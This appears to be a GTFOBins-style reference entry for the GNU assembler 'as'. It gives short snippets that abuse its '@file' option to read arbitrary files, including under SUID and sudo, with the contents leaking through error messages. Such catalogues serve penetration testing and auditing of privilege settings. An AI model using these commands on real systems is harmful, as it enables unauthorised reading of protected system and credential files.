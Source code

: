 description: The file content is treated as command line options and disclosed throught error messages, so this is not suitable to read arbitrary binary data.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        as @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./as @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo as @$LFILE
---
